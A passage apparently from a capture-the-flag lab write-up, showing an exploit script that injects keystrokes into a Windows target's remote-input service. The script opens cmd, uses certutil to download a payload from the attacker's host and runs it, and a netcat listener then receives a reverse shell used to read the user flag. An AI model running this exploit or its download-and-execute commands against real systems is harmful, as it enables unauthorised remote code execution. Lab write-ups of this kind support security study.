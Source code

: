 

    # Main Execution
    def main():
        staging_dir = "C:\\programdata\\"
        target.connect((rhost,port))
        sleep(0.5)
        print("[+] Connecting to target...")
        target.sendto(open,(rhost,port))     # Initialize Connection to Unified
        sleep(0.02)
        target.sendto(open_fin,(rhost,port))     # Finish Initializing Connection
        print("[+] Popping Start Menu")
        sleep(0.02)
        SendWin()
        sleep(0.3)
        print("[+] Opening CMD")
        SendString("cmd.exe", rhost)
        sleep(0.3)
        SendReturn()
        sleep(0.3)
        print("[+] *Super Fast Hacker Typing*")
        SendString("certutil.exe -f -urlcache http://" + lhost + "/" + payload + " " + staging_dir + payload, rhost) # Retrieve HTTP hosted payload
        sleep(0.3)
        print("[+] Downloading Payload")
        SendReturn()
        sleep(3)
        SendString(staging_dir + payload, rhost) # Execute Payload
        sleep(0.3)
        SendReturn()
        print("[+] Done! Check listener?")
        target.close()



When I run this, it works:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.115 57582
    Microsoft Windows [Version 10.0.19043.1266]
    (c) Microsoft Corporation. All rights reserved.

    C:\Users\clara>



I'll run `powershell` to switch shells, and grab `user.txt`:



    PS C:\Users\clara\Desktop> cat user.txt
    b0a89347************************

